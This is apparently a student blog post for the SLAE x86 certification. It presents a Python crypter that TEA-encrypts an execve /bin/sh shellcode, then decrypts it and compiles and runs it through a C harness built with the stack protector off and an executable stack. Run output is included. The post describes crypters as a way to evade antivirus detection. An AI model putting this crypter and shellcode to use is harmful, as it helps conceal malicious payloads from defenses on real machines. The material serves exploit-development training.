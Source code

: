 ```yaml
---
title:  "SLAE x86 Assignment 7: Crypter Script"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at the last assignment of SLAE x86. Let's dive right in!

## Understanding The Objective ##
So what are crypters? Crypters are tools that can be used to encrypt sets of data, in order to make it hard or nearly impossible for AVs to detect the content of that data. In our case, we will be building a crypter which will help us encrypt our ```execve-stack``` shellcode.

Instead of going with the conventional AES symmetric algorithm, I wanted to try something else. Hence, I will be using the ```PyTEA``` library in Python for this assignment. While this is much simpler, this method has it's own drawbacks. These can be found [here.](https://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm#Properties) In essence, the Tiny Encryption Algorithm uses a 128 bit key in order to encrypt.

Let's dive right in!

### Crypter Script
So this script basically generates a random key of 16 bytes. Then, encrypts the shellcode, decrypts it, and writes it to the ```shellcode.c``` file. This is then compiled and executed:
```python
# SLAE Assignment 7: Python Crypter Script
# Author:  4p0cryph0n
# Website: https://4p0cryph0n.github.io/

#!/usr/bin/python

from pytea import TEA
import os
import binascii
import time

key = os.urandom(16)
print('current key: ', key)
tea = TEA(key)
execve = b"\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"
e = tea.encrypt(execve)
e_hex = binascii.hexlify(e)

print('Encrypted Hex Shellcode: ' +  e_hex)
time.sleep(1)

print('Decrypting And Executing')
time.sleep(1)
decrypted = tea.decrypt(e)

print('Decrypted Shellcode: ' + decrypted)


shellfile = open("shellcode.c", "w")
shellfile.write("""#include<stdio.h>

#include<string.h>

unsigned char code[] = \\
\"""")
shellfile.close()
shellfile = open("shellcode.c", "a")
shellfile.write(decrypted)
shellfile.close()
shellfile = open("shellcode.c", "a")
shellfile.write("""";

main()
{

        printf(\"Shellcode Length:  %d\\n\", strlen(code));

        int (*ret)() = (int(*)())code;
        ret();

}""")

shellfile.close()

os.system("gcc -fno-stack-protector -z execstack shellcode.c -o shellcode && ./shellcode")
```
Alright! let's run this:
```
kali@kali ~/Desktop/SLAEx86_Assignments/assignment7 $ python crypter_tool.py
('current key: ', '\x9a\x1bZ\x7f`\xc3\xbd\xef\xbdli\x81\xe1\x97\x970')
Encrypted Hex Shellcode: efa5ae8b718d117258da58dd315b1402be6903b87b954a336d26d2f551e03b7598b2c0961e95dd2a34b8aeadabb9f96332437bbfe24cdf91bc13cf332ffe44df2a9bc8c861cd4598bd7f6d981c6c293526760d85b769830979b2809144e45a097b62c92049cdd01838e060e9741c7972
Decrypting And Executing
Decrypted Shellcode: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
shellcode.c:8:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
    8 | main()
      | ^~~~
Shellcode Length:  25
$
```
With this, we are done with all the assignments of SLAE x86! Stay tuned for SLAE x64!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE - 1534
